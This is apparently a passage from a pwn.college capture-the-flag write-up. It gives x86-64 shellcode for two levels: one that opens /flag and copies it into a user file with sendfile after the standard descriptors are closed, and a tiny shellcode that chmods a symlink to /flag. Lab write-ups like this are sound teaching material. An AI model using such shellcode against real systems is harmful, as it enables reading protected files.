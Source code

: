 Add this on top:

```asm
.rept 4096
nop
.endr
```

### level7

This level limits my use of `stdin`, `stderr`, and `stdout`. More specifically, it will close the file descriptors 0-2. However, I can still use `sendfile` to transfer the datas of our flag file into one of my files. I named my file `~/meow` because I love cats. I will open `meow` in a similar way but with `rsi` set to 1, for write. Before I open my second file, `meow`, I will also push the file descriptor of opened `/flag` onto the stack for `sendfile`. 

```asm
    mov rax, 2
    lea rdi, [rip + flag]
    mov rsi, 0
    syscall
    push rax
    mov rax, 2
    lea rdi, [rip + meow]
    mov rsi, 1
    syscall
    mov rdi, rax
    pop rsi
    mov rdx, 0
    mov r10, 1000
    mov rax, 40
    syscall
    mov rax, 60
    syscall
flag:
    .ascii "/flag\0"
meow:
    .ascii "/home/hacker/meow\0"
```

### level8

This level is similar to `level6`, but now it only takes `0x12` bytes of shellcode. This means that I will barely have a space to make one syscall. Looking through the discord channel for pwn.college revealed that the key was to use `chmod` and symlinks. I will first create a symbolic link to `/flag` called `f` in my home directory, more specifically the directory where I will run the challenge binary. Then I will change the `f`'s permission to `7`, which is read-write-exec for me. 

```asm
.global _start
.intel_syntax noprefix
_start:
    mov al, 90
    mov word ptr [rsp], 0x0066
    mov rdi, rsp
    mov sil, 7
    syscall
```
